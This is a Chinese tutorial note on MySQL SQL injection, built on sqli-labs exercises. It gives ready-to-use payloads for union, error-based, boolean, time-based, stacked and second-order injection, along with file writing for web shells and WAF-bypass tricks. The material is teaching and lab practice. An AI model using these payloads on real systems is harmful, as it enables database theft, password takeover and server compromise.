#### 【概述】

##### <<前置知识

###### --+

&emsp;&emsp;MySQL 中有三种注释符：#、--空格、/**/，在 SQL 注入中也就 # 和 --+ 用得上。但是 url 中 # 会被浏览器解释为指导其动作的那个 # 号，所以如果需要使用 # ，需先将其 url 编码为 %23 。

&emsp;&emsp;对于 --空格，使用 --+ 时，+ 号被 url 编码后会变为空格。

###### select 1, database()





###### 引号、括号问题

它可能查不到结果，但它不会报错：





- 无论加几个半括号都可以：



###### 一些函数

- system_user()：系统用户名

- user()：用户名

- current_user：当前用户名

- system_user()：MySQL 用户名

- session_user()：连接数据库的用户名

- database()：数据库名

- version()、@@version：MySQL 版本

- @@datadir：读取数据库路径

- @@basedir：MySQL安装路径

- @@version_compile_os：操作系统

###### information_schema库三表

- information_schema.schemata：存储 MySQL 中的所有数据库的库名
- information_schema.tables：存储 MySQL 中的所有数据表的表名
- information_schema.columns：存储 MySQL 中的所有列的列名

###### NOTICE

- MySQL5.0 以下，没有 information_schema 数据库。
- MySQL5.0 以上，默认添加了一个名为 information_schema 的数据库，该数据库中的表都是只读的，不能进行更新、删除和插入，也不能加载触发器，因为它们实际只是一个视图，不是基本表，没有关联的文件。

##### <<检测

###### 注入点

&emsp;&emsp;id=1'、id=1"、id=1')、 id=1')) 、id=1") 、id=1")) 等。

###### 闭合推理

示例，sqli-labs Less-7 ：

- 1'：错
- 1" ：成
- 推出 '$id'
- 1'--+ ：错
- 推翻 '$id'
- 1')--+：错
- 1')) --+：成
- 推出 (('$id'))

###### 类型判断

注：如果正确查询有回显，错误查询无回显或回显不一样，则称为“存在flag”；如果正确查询和错误查询的回显都一样或都不回显，则称为“不存在flag”。

- 语句报错、回显查询信息，联合注入或报错注入或布尔注入或导出文件或延时注入。
- 语句报错、存在flag、不回显查询信息，报错注入或布尔注入或导出文件或延时注入。
- 语句不报错、存在flag、不回显查询信息，布尔注入或导出文件或延时注入。
- 语句不报错、不存在flag、不回显查询信息，延时注入。

#### 【注入类型】

##### <<联合注入

###### 爆语句

注入点检测。

###### 爆字段数

`?id=1' order by N--+`

###### 爆回显位置

`?id=-1' union select 1,2,3--+`

###### 爆库名

`?id=-1' union select 1,2,database()--+`

###### 爆表名

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='xxx'--+`

###### 爆列名

- 精确到表：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='xxx' and table_name='xxx'--+`
- 精确到库：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='xxx'--+`

###### 爆值

`?id=-1' union select 1,group_concat(username),group_concat(password) from security.users--+`

##### <<报错注入

###### 前提

&emsp;&emsp;页面能够响应详细的错误描述，MySQL 数据库中显示错误描述是因为开发程序中采用了 print_r、mysql_error() 函数。

###### NOTICE

&emsp;&emsp;报错注入的，布尔注入也行。

###### updatexml()

```mysql
UpdateXML(xml_target, xpath_expr, new_xml)
```

用 new_xml 替换根据 xpath_expr 在 xml_target 匹配到的内容，然后返回更改后的 XML 。如果未 xpath_expr 找到匹配的表达式，或者找到多个匹配项，该函数将返回原始 xml_target 。所有三个参数都应该是字符串。

```mysql
UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e> ') AS val5

val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```

updatexml 使用时，当 xpath 格式出现错误，MySQL 会爆出 xpath 语法错误。

注入命令类似 extractvalue() ，多加个参数值 1 就是了。

###### extractvalue()

```mys
EXTRACTVALUE(xml_frag, xpath_expr)
```

返回匹配结果，未匹配到则返回 NULL 。extractvalue 使用时，当 xpath 格式出现错误，MySQL 会爆出 xpath 语法错误。

注意不能用 group_concat() ，因为返回值太多了不能正常回显，只能 `limit N,1` 来慢慢爆。 

- `?id=1' and extractvalue(1, concat(0x7e,(select @@version),0x7e))--+`：爆数据库版本
- `?id=1' and extractvalue(1, concat(0x7e,(select database()),0x7e))--+` ：爆库名
- `?id=1' and extractvalue(1, concat(0x7e,(select table_name from information_schema.tables where table_schema='xxx' limit N,1),0x7e))--+` ：爆表名
- `?id=1' and extractvalue(1, concat(0x7e,(select column_name from information_schema.columns where table_schema='xxx' and table_name='xxx' limit N,1),0x7e))--+`：爆列名
- `?id=1' and extractvalue(1, concat(0x7e,(select concat(username,0x7e,password) from security.users limit N,1),0x7e))--+` ：爆值

###### floor()

&emsp;&emsp;`select count(*), floor(rand(0)*2) x from xxx group by x;` ，rand(0) 将产生 0~1 的随机数，rand(0)\*2 将产生 0~2 的随机数，floor(rand(0)\*2) 将得到 0 或 1 。floor() 报错注入的本质是 group by 语句的报错，group by 语句报错的原因是 floor(rand(0)*2) 的不确定性，即可能为 0 或 1 。

&emsp;&emsp;group by key 执行时，将依次读取数据表的每一行，将结果保存于临时表中。读取每一行的 key 时，如果 key 存在于临时表中，则更新临时表中的数据（更新数据时，不再计算rand值）；如果 key 不存在于临时表中，则在临时表中插入 key 所在行的数据（插入数据时，会再计算rand 值）。例如，临时表只有 key 为 1 的行不存在 key 为 0 的行，那么数据库要将该条记录插入临时表，由于是随机数，插时要计算一下随机值，此时 floor(rand(0)*2) 的结果可能为 1，就会导致插入时冲突而报错。

- `?id=1' union select 1,count(*),concat((select database()),0x7e,floor(rand(0)*2)) a from information_schema.schemata group by a--+`：爆库名
- `?id=1' union select 1,count(*),concat((select table_name from information_schema.tables where table_schema='xxx' limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆表名
- `?id=1' union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='xxx' and table_name='xxx' limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆列名
- `?id=1' union select 1,count(*),concat((select password from security.users limit N,1),0x7e,floor(rand(0)*2)) a from information_schema.columns group by a--+`：爆值

###### 数据溢出

&emsp;&emsp;前提：MySQL 版本 5.5~5.5.49，此时数据超出 DOUBLE 才会报错，同时会返回查询信息，而不是像这样：



&emsp;&emsp;前置知识：

- exp(x)：返回 e 的 x 次方计算结果
- 如果一个查询成功执行，则其返回值为 0
- ~0 将得到 18 446 744 073 709 551 615 ，无符号 BIGINT 范围 (0，18 446 744 073 709 551 615) 。

&emsp;&emsp;所以构造 payload 如 `?id=1' and exp(~(select * from (select database())x))--+`

###### 查询重复

`?id=1' union select 1,2,3 from (select name_const(version(),1),name_const(version(),1)) x --+`

##### <<布尔注入

###### ?id=1' and left(@@version,1)=N--+

&emsp;&emsp;猜数据库版本。

###### ?id=1' and length(database())=N--+

&emsp;&emsp;猜库名长度，可引入二分法。

###### ?id=1' and left(database(),1)>'a'--+、?id=1' and left(database(),2)>'sa'--+

&emsp;&emsp;猜库名，可引入二分法。

###### ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit M,1),N,1))=101

&emsp;&emsp;猜表名，可引入二分法。

###### ?id=1' and 1=(select 1 from information_schema.columns where table_schema='xxx' and table_name regexp 'xxx' limit N,1)--+

&emsp;&emsp;猜表名，正则匹配法。

###### ?id=1' and ord(mid((select ifnull(cast(username as char),0x20) from security.users order by id limit N,1),N,1))=68--+

&emsp;&emsp;猜值。

##### <<延时注入

&emsp;&emsp;利用 sleep()、benchmark() 等函数让 MySQL 的执行时间变长，多与 if(expr1,expr2,expr3) 结合使用。

&emsp;&emsp;将 expr2 设置为 sleep() 等函数，如果 expr1 为 true，则浏览器转 sleep() 里的秒数后再回显，否则直接回显。所用到的猜解语句同布尔注入类似，不多演示，仅展示一例：

- `?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+` ：猜库名。

&emsp;&emsp;注意：首先是要通过一样的原理猜闭合方式。

##### <<导出文件

###### 前置知识

- MySQL `SELECT ... INTO OUTFILE "file"` ，将结果写入文件：

  - 该文件不能事先就存在
  - 数据库用户拥有 FILE 权限
  - 文件路径要与 secure_file_priv 的设置不冲突

- MySQL 默认不能导入和导出文件，这与 secure_file_priv 的值有关（默认为null)。secure_file_priv 参数是用来限制 LOAD DATA、SELECT … INTO OUTFILE、LOAD_FILE() 的文件到哪个指定目录的。

  - 当 secure_file_priv 的值为 null ，表示不允许导入、导出
  - 当 secure_file_priv 的值为如 /tmp/ ，表示导入、导出只能发生在 /tmp/ 目录下
  - 当 secure_file_priv 的值为空，表示不对导入、导出做限制

  使用 `show variables like 'secure_file_priv'` 命令查看其设置。

###### 操作

- 获取 secure_file_priv 的值。
- 如果 secure_file_priv 设置为空，则可以写入到网址根目录的文件里，从而通过 url 访问来查看写入内容或写入木马连接蚁剑。否则，只能按照 secure_file_priv 的设置写文件，并在其指定目录下查看。
- 获取字段数：`?id=1')) order by 3--+`
- 依次获取库名、表名、列名、值，类似普通注入，只是改成 `SELECT ... INTO OUTFILE "file"` 而已。 

##### <<二次注入

###### 概述

&emsp;&emsp;二次排序注入也称存储型的注入，就是将可能导致 SQL 注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以触发 SQL 注入。

###### 示例

sqli-labs Less-24

初始存在账密 admin 1：



我们的目的是将 admin 账户的密码改为 hacker 。

首先注册账户 admin'# hack：


之后登录 admin'# 账户，修改其密码为 hacker ，那么执行的 SQL 语句将为 `update xxx set password='hacher' where username='admin'#'` ，即实际修改的是账户 admin 的密码：



可以发现账户 admin 的密码已修改为 hacker 。

##### <<堆叠注入

&emsp;&emsp;堆叠注入，就是一次执行多条 SQL 语句。



```mysql
SELECT * FROM `student` WHERE STUDENTID='2101010101';
DELETE FROM `student` WHERE STUDENTID='2102020202';
```

多条 SQL 语句一起执行时只显示第一条的结果，但所有的都会执行：





&emsp;&emsp;堆叠注入跟联合注入很像，但联合注入只能 union select ，而堆叠注入 select、update、delete、insert 都可以，操作空间更大。

&emsp;&emsp;堆叠注入一般用于插入或修改账密。

#### 【绕过】

###### 过滤--+、#

&emsp;&emsp;例如闭合方式为 '$id' ，则 `?id=-1' union select 1,database(),'2` 。

###### 过滤and、or

- 大小写变形
- 利用运算符替换：or——||、and——&&
- URL编码：#——%23
- Hex编码：~——0x7e

###### 过滤空格

- %09 TAB键（水平）
- %20 空格
- %a0 空白
- %0a 新建一行
- %0b TAB键（垂直）
- %0c 新的一页
- %0d return功能
- /**/
- /!/

###### 过滤引号

&emsp;&emsp;转为进制，如 16 进制。

```
select * from users where username='users'
==>
select * from users where username=0x7573657273
```

###### 过滤逗号

- 对于substr()、mid() 可以用 from to 代替：

  ```mysql
  select substr(database() from 1 for 1);
  
  select mid(database() from 1 for 1);
  ```

- 使用 join 代替：

  ```mysql
  union select 1,2--+
  <==>
  union select * from (select 1)a join (select 2)b--+
  ```

- 使用 like 代替：

  ```mysql
  select ascii(mid(user(),1,1))=80--+
  <==>
  select user() like 'r%'--+
  ```

- 对于 limit 可以使用 offset 来绕过：

  ```mysql
  select * from news limit 0,1--+
  <==>
  select * from news limit 1 offset 0--+
  ```

###### 过滤比较符号

&emsp;&emsp;使用 greatest()、least() 绕过，前者返回最大值，后者返回最小值。

###### 过滤=

&emsp;&emsp;使用 like 、rlike 、regexp 绕过。

###### HPP

&emsp;&emsp;HTTP Parameter Pollution ，HTTP 参数污染。注入两个同名的参数 id，第一个参数用于绕过 WAF，第二个参数用于注入，即 `?id=1&id=xxx` 。示例：sqli-labs Less-29 。

###### 宽字节注入

&emsp;&emsp;首先我们来了解以下 url 编码的规则：url 编码就是 % 加一个字符 ASCII 码的十六进制。

&emsp;&emsp;其次：



&emsp;&emsp;以 sqli-labs Less-32 为例，我们发现输入 ?id=1' 时，后端将处理成 1\\' ，即添加转义字符将注入点转义防止 SQL 注入。在一般情况下，此处是不存在 SQL 注入漏洞的，但当 MySQL 为 GBK 编码时，可以使用宽字节注入。

&emsp;&emsp;宽字节编码是指不是像 ASCII 一样一个字符只占一个字节，如在 GBK 中一个汉字占两个字节。宽字节注入是利用 MySQL 的一个特性，即 MySQL 在使用 GBK 编码时，会认为两个字符是一个汉字（但需要前一个字符的ASCII码要大于127，才到汉字的范围）。

&emsp;&emsp;GET 型宽字节注入的格式是在输入内容后加一个 %df，即如 ?id=1%df' ，到达 SQL 语句中时处理为 id=1�\ （因为ASCII中不存在16进制为df的字符，所以暂时转换为� ）。当 GBK 编码的 MySQL 识别  id=1�\ 时，因为 �（即16进制数df）大于 127 ，将被识别为汉字的第一个字节，而 \ 的 ASCII 码的 16 进制为 5c ，df5c 在 GBK 编码中是繁体字“運”，这样注入信息最终变成 id=1運' ，转义符号 \ 被吞噬，单引号成功逃逸。

&emsp;&emsp;POST 型宽字节注入则需要抓包自己加上 16 进制为 df 的”字符“。
